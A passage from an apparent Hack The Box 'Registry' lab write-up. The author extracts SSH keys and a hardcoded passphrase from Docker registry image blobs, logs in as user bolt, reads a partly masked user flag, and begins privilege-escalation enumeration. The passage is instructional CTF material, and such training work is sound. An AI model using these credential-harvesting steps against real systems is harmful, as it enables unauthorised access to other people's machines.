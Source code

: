*** ENJOY! ***
```

While digging through the blob directories, we found the following:

1) SSH key pairs in the *2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/root/.ssh/* directory.

2) Some scripts of interest (01-ssh.sh and 02-ssh.sh) under *2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/etc/profile.d/*

Inspecting the second scripts gives us the passphrase for the *id_rsa* private key we found. 

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ cat 2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/etc/profile.d/02-ssh.sh
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
Private key passphrase: ```GkOcz221Ftb3ugog```


Let's try these two together:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ ssh -i /home/kali/Documents/HTB-Labs/Registry/2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/root/.ssh/id_rsa bolt@registry.htb
Enter passphrase for key '/home/kali/Documents/HTB-Labs/Registry/2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Wed Mar 25 01:18:23 UTC 2020

  System load:  0.0               Users logged in:                0
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 21%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    154
Last login: Mon Oct 21 10:31:48 2019 from 10.10.14.2
bolt@bolt:~$ id
uid=1001(bolt) gid=1001(bolt) groups=1001(bolt)
bolt@bolt:~$ pwd
/home/bolt
bolt@bolt:~$ ls
user.txt
bolt@bolt:~$ cat user.txt 
ytc0y**********************3ywzi
```

Listing files in the bolt's user home directory gives us the user flag file **(WOOT WOOT!)**


## Privilege Escalation

Well, so far we tried finding any files/directories where the bolt group has access to but not much came up, but if we try what files are world-readable under /var we see some interesting things:

Basically we can read to the index.php file in the install directory inside /var/www/html and also there seems to be another directory called bolt(?!) where we can read basically all the files inside.
```
